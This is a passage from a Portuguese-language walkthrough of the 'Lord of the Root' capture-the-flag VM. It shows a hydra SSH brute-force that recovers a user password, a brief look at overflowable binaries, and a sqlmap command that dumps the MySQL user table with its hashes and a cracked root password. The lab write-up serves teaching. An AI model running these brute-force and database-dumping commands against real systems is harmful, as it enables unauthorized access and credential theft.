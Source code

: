 5) Ótimo, logo na aplicação com todos os usuários e só tem um meme do Legolas kkkkk, vou atrás do ssh:

```
root@parrot:/tmp/lord# hydra -L users -P password ssh://lord
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-20 10:57:40
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:5/p:5), ~2 tries per task
[DATA] attacking ssh://lord:22/
[22][ssh] host: lord   login: smeagol   password: MyPreciousR00t
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-20 10:57:44
```

Maravilha! Me logo como o smeagol (`my precioussssssssss...`).

6) A partir daqui travei um pouco, não achei nada relevante, rodei o linpeas.sh, o lse.sh, pspy64 e nada. Enquanto trabalhava fui tendo algumas ideias, identifiquei o diretório /SECRET na raiz com o seguinte conteúdo:

```
smeagol@LordOfTheRoot:/SECRET$ md5sum door1/file
f0c663095117d908e16412570d2c6252  door1/file
smeagol@LordOfTheRoot:/SECRET$ md5sum door2/file
f0c663095117d908e16412570d2c6252  door2/file
smeagol@LordOfTheRoot:/SECRET$ md5sum door3/file
bb0e0e4439b5039e71405f8a1b6d5c0c  door3/file
```

Três 'portas', as duas primeiras com o mesmo arquivo, a terceira com um hash diferente. Consegui identificar o tamanho do buffer colocando vários `AAAAAA` até me retornar um `Segmentation fault`, mas olhando rapidamente no gdb travei denovo e já não sabia o que fazer, aparentemente esses bináros eram um rabbit hole.


7) Voltei para a enumeração, busquei escalação via kernel e nada, até que rodei novamente um `ps -ef | grep root` e percebi que quem estava executando o mysql era o root, hum, vamos por essa linha. O login ao MySQL pedia senha, que eu não tinha, então vamos explorar com o sqlmap novamente:
```
root@parrot:/tmp/lord# sqlmap -r post_exploit --batch -p password -D mysql -T user --dump
```

```
Host,User,plugin,ssl_type,Drop_priv,File_priv,Alter_priv,Event_priv,Grant_priv,Index_priv,Super_priv,Password,ssl_cipher,Create_priv,Delete_priv,Insert_priv,Reload_priv,Select_priv,Update_priv,max_updates,x509_issuer,Execute_priv,Process_priv,Show_db_priv,Trigger_priv,x509_subject,Shutdown_priv,max_questions,Show_view_priv,References_priv,Repl_slave_priv,max_connections,Create_user_priv,Create_view_priv,Lock_tables_priv,Repl_client_priv,Alter_routine_priv,Create_routine_priv,max_user_connections,Create_tmp_table_priv,authentication_string,Create_tablespace_priv
127.0.0.1,root,<blank>,<blank>,Y,Y,Y,Y,Y,Y,Y,*4DD56158ACDBA81BFE3FF9D3D7375231596CE10F (darkshadow),<blank>,Y,Y,Y,Y,Y,Y,0,<blank>,Y,Y,Y,Y,<blank>,Y,0,Y,Y,Y,0,Y,Y,Y,Y,Y,Y,0,Y,<blank>,Y
::1,root,<blank>,<blank>,Y,Y,Y,Y,Y,Y,Y,*4DD56158ACDBA81BFE3FF9D3D7375231596CE10F (darkshadow),<blank>,Y,Y,Y,Y,Y,Y,0,<blank>,Y,Y,Y,Y,<blank>,Y,0,Y,Y,Y,0,Y,Y,Y,Y,Y,Y,0,Y,<blank>,Y
localhost,debian-sys-maint,<blank>,<blank>,Y,Y,Y,Y,Y,Y,Y,*4DD56158ACDBA81BFE3FF9D3D7375231596CE10F (darkshadow),<blank>,Y,Y,Y,Y,Y,Y,0,<blank>,Y,Y,Y,Y,<blank>,Y,0,Y,Y,Y,0,Y,Y,Y,Y,Y,Y,0,Y,<blank>,Y
localhost,root,<blank>,<blank>,Y,Y,Y,Y,Y,Y,Y,*A55A9B9049F69BC2768C9284615361DFBD580B34,<blank>,Y,Y,Y,Y,Y,Y,0,<blank>,Y,Y,Y,Y,<blank>,Y,0,Y,Y,Y,0,Y,Y,Y,Y,Y,Y,0,Y,NULL,Y
lordoftheroot,root,<blank>,<blank>,Y,Y,Y,Y,Y,Y,Y,*4DD56158ACDBA81BFE3FF9D3D7375231596CE10F (darkshadow),<blank>,Y,Y,Y,Y,Y,Y,0,<blank>,Y,Y,Y,Y,<blank>,Y,0,Y,Y,Y,0,Y,Y,Y,Y,Y,Y,0,Y,<blank>,Y
```
